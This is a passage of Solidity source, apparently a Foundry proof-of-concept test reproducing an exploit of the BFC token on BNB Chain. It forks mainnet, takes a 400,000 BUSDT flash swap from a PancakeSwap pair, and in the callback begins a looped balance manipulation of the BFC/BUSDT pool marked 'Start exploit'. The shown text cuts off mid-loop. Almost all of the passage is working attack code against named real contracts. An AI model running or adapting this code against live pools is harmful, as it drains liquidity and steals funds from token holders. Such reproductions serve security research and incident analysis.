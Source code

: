```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract BFCTest is Test {
    IUni_Pair_V2 BUSDT_WBNB =
        IUni_Pair_V2(0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE);
    IUni_Pair_V2 BUSDT_BFC =
        IUni_Pair_V2(0x71e1949A1180C0F945fe47C96f88b1a898760c05);
    IUni_Router_V2 Router =
        IUni_Router_V2(0x10ED43C718714eb63d5aA57B78B54704E256024E);
    IERC20 BFC = IERC20(0x595eac4A0CE9b7175a99094680fbe55A774B5464);
    IERC20 BUSDT = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IERC20 WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

    function setUp() public {
        vm.createSelectFork("bsc", 31599443);
        vm.label(address(BUSDT_WBNB), "BUSDT_WBNB");
        vm.label(address(BUSDT_BFC), "BUSDT_BFC");
        vm.label(address(Router), "Router");
        vm.label(address(BFC), "BFC");
        vm.label(address(BUSDT), "BUSDT");
        vm.label(address(WBNB), "WBNB");
    }

    function testExploit() public {
        deal(address(BUSDT), address(this), 0);
        deal(address(this), 0);
        bytes memory swapData = abi.encode(
            address(BFC),
            address(BUSDT_BFC),
            400_000 * 1e18
        );
        BUSDT_WBNB.swap(400_000 * 1e18, 0, address(this), swapData);
        swapBUSDTToBNB();

        emit log_named_decimal_uint(
            "Attacker BNB balance after attack",
            address(this).balance,
            18
        );
    }

    function pancakeCall(
        address _sender,
        uint256 _amount0,
        uint256 _amount1,
        bytes calldata _data
    ) external {
        BFC.approve(address(Router), type(uint256).max);
        BUSDT.approve(address(Router), type(uint256).max);

        swapBUSDTToBFC(BUSDT.balanceOf(address(BUSDT_BFC)));
        BFC.transfer(address(BFC), BFC.balanceOf(address(this)));
        swapBUSDTToBFC(BUSDT.balanceOf(address(this)));
        // Start exploit
        uint256 counter;
        while (counter < 100) {
            uint256 balanceBFC = BFC.balanceOf(address(this));
            uint256 pairBalanceBFC = BFC.balanceOf(address(BUSDT_BFC));

```